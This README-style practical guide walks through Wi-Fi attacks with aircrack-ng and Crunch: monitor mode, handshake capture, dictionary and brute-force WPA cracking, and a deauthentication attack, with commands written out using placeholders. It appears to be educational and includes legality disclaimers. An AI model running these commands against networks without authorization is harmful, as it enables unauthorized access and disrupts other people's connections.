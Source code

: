 # Wi-Fi Attacks Practical Guide

In this guide, we'll explore Wi-Fi attacks, including switching adapters to monitor mode, capturing handshakes, and cracking passwords using aircrack-ng. Please note that attempting these actions on networks without proper authorization is illegal and unethical. This guide is for educational purposes only.

## Prerequisites

Make sure you have the necessary tools installed, including aircrack-ng and Crunch.

```bash
# Install aircrack-ng
sudo apt-get install aircrack-ng

# Install Crunch
sudo apt-get install crunch
```
## Switching Adapters to Monitor Mode
Command:  `sudo airmon-ng start [interface]`

Replace [interface] with your Wi-Fi interface name.

## Capturing Handshakes
Command: `sudo airodump-ng [monitored_interface]`

Replace [monitored_interface] with the interface created in monitor mode.

## Cracking Passwords using aircrack-ng (Dictionary Attack)
Command: `sudo aircrack-ng -w [dictionary_file] -b [BSSID] [capture_file.cap]`

Replace [dictionary_file] with the path to your dictionary file, [BSSID] with the target BSSID, and [capture_file.cap] with the handshake capture file.

## Cracking Passwords using aircrack-ng and Crunch (Brute Force Method)

Create a Wordlist with Crunch: 
            
            `crunch [min_length] [max_length] -o [output_file]`
            
            Replace [min_length] and [max_length] with the desired password length range.

Command: 
            
            `sudo aircrack-ng -w [wordlist_file] -b [BSSID] [capture_file.cap]`
            
            Replace [wordlist_file] with the path to your wordlist file.

## Executing a De-authentication Attack

Command: 

        `sudo aireplay-ng --deauth [number_of_deauths] -a [BSSID] -c [client_MAC] [monitored_interface]`
        
        Replace [number_of_deauths], [BSSID], [client_MAC], and [monitored_interface] with the appropriate values.
        
        Remember to use this knowledge responsibly and only on networks for which you have explicit permission.
